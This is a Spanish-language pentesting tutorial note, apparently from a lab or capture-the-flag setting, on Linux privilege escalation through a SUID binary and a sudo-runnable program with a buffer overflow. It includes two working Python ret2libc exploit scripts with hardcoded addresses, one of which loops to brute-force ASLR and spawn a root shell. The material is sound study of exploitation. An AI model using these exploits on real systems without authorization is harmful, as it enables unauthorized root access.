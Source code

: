 


Tenemos un ejemplo en el cual hemos comprometido una maquina y al momento de enumerar los archivos con privilegios suid vemos varios binarios pero el que nos interesa este


![[Pasted image 20240229201548.png]]

Al parecer este binario es de un  servidor de correo electrónico de código abierto al investigar la version del binario con ayuda de searchsploit se encontro un exploit el cual nos ayuda a escalar privilegios 

![[Pasted image 20240229203704.png]]

Este es el exploit que nos ayudara a esclar privilegios

![[Pasted image 20240229203813.png]]

Ahora solo falta mover el exploit de la maquina atacante a la maquina victima cuando este ya este en la maquina victima lo ejecutamos y en si ya tendiramos una bash como root y asi de facil se habrian escalado privilegios 

![[Pasted image 20240229204918.png]]


Otro caso es donde tenemos una maquina donde al enumerarla y hacer un sudo -l podemos ver que hay un binario que se ejecuta como root y sin necesidad de contraseña al  ejecutarlo nos pide que le pasemos como argumento un string

![[Pasted image 20240302184625.png]]

Posiblemente esto sea propenso a buffer overflow ya que al momento de ingrearle varios caracteres este nos responde con una violacion de segmento


![[Pasted image 20240229232606.png]]

Al analizarlo mas a fondo con gdb vemos que al ingresarle varios caracteres el registro EIP se sobrescribe por lo que probablmente nos puedamos arovechar de este registro

![[Pasted image 20240229233212.png]]

Primero lo que tenemos que hacer es encontrar el offset con ayuda del siguiente comando podemos crear un patron de una cantidad especifcada para luego pasarlo como argumento al binario 

![[Pasted image 20240302105012.png]]

Ya establecido el patron ahora lo que tenemos que hacer es correr el programa y nos aparecera que el EIP ha sido sobrescrito con el patron antes configurado

![[Pasted image 20240302105314.png]]

Ahora ya podremos saber cual es el offset para eso tendremos que colocar el siguiente comando donde nos apareceran los offsets de los registros entre ellos los del EIP 


![[Pasted image 20240302113158.png]]

Ya sabiendo cual es el offset para llegar a sobrescribir el EIP podemos verifarlo de la siguiente manera primero corremos el programa pasandole un comando el cual manda 112 as y 4 bes las cuales corresponden a 4 bytes y si estas 4 bes se respresentan en hexadecimal 4 veces signifac que ya tendremos controlado el EIP y podremos saltar a cualquier direccion que le pongamos

![[Pasted image 20240302114136.png]]

Y listo como podemos ver el registro EIP ahora tiene 4 bes asi que ahora lo podemos controlar a nuestro favor


![[Pasted image 20240302114324.png]]

Al analizar la seguridad de binaro podemos ver que tiene el NX activado por lo que la manera mas rentable de ejecutar comandos como root es con un ret2libc 

![[Pasted image 20240302123002.png]]


Tambien al ver si el ASLR esta activado vemos que las direcciones estan siendo aleatorias por lo tanto el ASLR si esta activado

![[Pasted image 20240302125156.png]]

Al ver que que la maquina corren en 32 bits es probable de que haya una colision de direcciones de memoria por que estas pueden repetirse y con esto podriamos bypassear el ASLR a continuacion se muestra que una direccion de memoria se repite varias veces 

![[Pasted image 20240302130500.png]]

A modo de ejemplo si por alguna razon el ASLR esta desactivado lo que podriamos hacer es que podriamos abrir el programa  desde gdb para luego ver las funcines que esta disponibles de la siguiente manera

![[Pasted image 20240302143436.png]]

Viendo las funciones podemos ver que hay una funcion llamada main entonces lo que podemos hacer es poner un break point en la funcion main para luego poder sacar las direcciones de todo lo necesario para el ret2libc 

![[Pasted image 20240302143709.png]]

Ya con el punto de interrupcion puesto lo que podemos hacer es correr el programa y buscar lo necesario para hacer el ret2libc en este caso sera la direccion de memoria de la instruccion system luego la direccion de memoria de la instuccion exit y finalmente  la direccion de memoria de /bin/sh y lo haremos de la siguiente manera

![[Pasted image 20240302144023.png]]


Ya con las direcciones obtenidas podemos hacer un script en python para asi tratar de sacar una sh y escalar privilegios aprovechandonos de los sudoers el script es el siguiente 

```python
from struct import pack
import subprocess


padding=b'A'*112


system_adress=pack("<L",0xb7e40db0)
exit_adress=pack("<L",0xb7e349e0)
sh_adress=pack("<L", 0xb7f61b2b)

payload=padding+system_adress+exit_adress+sh_adress

subprocess.run(["sudo","./custom",payload])

```

  
El script comienza definiendo un relleno (padding) mediante la creación de una cadena de caracteres compuesta por 112 veces el carácter 'A'. Este relleno se emplea para ocupar un buffer en el programa vulnerable. Luego, se procede a calcular las direcciones de las funciones system, exit y la cadena "/bin/sh". Estas direcciones se empaquetan en formato little-endian utilizando la función pack del módulo struct. A continuación, se construye el payload concatenando el relleno con las direcciones de las funciones. Este payload, que contiene la información necesaria para ejecutar ciertas acciones, será el input que se enviará al programa vulnerable. Finalmente, se emplea subprocess.run para ejecutar el programa custom con el payload como argumento, otorgándole privilegios de superusuario mediante el uso de sudo.


Ahora solo ejecutamos el exploit y esperamos que nos de una sh coomo usuario root


![[Pasted image 20240302183923.png]]

Y listo asi nos podemos aprovechar de un binario sin ASLR el cual es vulnerable a buffer overflow y se puede ejecutar como root sin necesidad de contraseña ahora veremos el otro caso que es cuando el ASLR esta activado 


Primero tendremos que encontrar los offsets de system, exit y /bin/sh para esto primero tenemos que saber la ubicacion del libc que esta utilizando el binario asi que ejecutamos el siguiente comando y ahora saberemos la ruta donde se encuentra


![[Pasted image 20240302145431.png]]

Sabiendo la ruta del libc ahora si podriamos localizar los offsets de system y exit ejecutando el siguiente comando

![[Pasted image 20240302145725.png]]

Ahora solo falta encontrar el offset de /bin/sh ese lo podemos encontrar ejecutando el siguiente comando

![[Pasted image 20240302151345.png]]

Ya con esto podriamos hacer un exploit en python como el que se muestra a continuacion 

```python
import subprocess
import sys
from struct import pack

libc=0xb7d46000

padding=b'A'*112

system_offset=0x0003adb0
exit_offset=0x0002e9e0
sh_offset=0x0015bb2b


system_adress=pack("<L",system_offset+libc)
exit_adress=pack("<L",exit_offset+libc)
sh_adress=pack("<L",sh_offset+libc)

payload=padding+system_adress+exit_adress+sh_adress


while True:

	result = subprocess.run(["sudo", "./custom", payload])
	if result.returncode == 0:

		print("\n\n[+] Se ha salido correctamente del programa\n")
		sys.exit(0)

```

Este script define la dirección base de la biblioteca de C estándar (libc) y crea un relleno de 112 caracteres 'A' para llenar un buffer en el programa vulnerable. A continuación, se definen offsets para las funciones `system`, `exit` y la cadena "/bin/sh" dentro de libc, y se calculan las direcciones absolutas correspondientes. Estas direcciones se concatenan para formar un payload que se enviará al programa vulnerable. Se establece un bucle infinito que ejecuta el programa vulnerable con el payload como argumento 

Y listo al ejecutarlo podemos ver que nos arroja una sh y si verificamos que usuario somos nos dice que ahora somos root ya que nos hemos aprovechado de que el binario se podia ejecutar como root siendo un usuario normal y sin necesidad de colocar contraseña  



![[Pasted image 20240302171420.png]]

Asi es como nos podemos aprovechar de binarios especificos del sistema













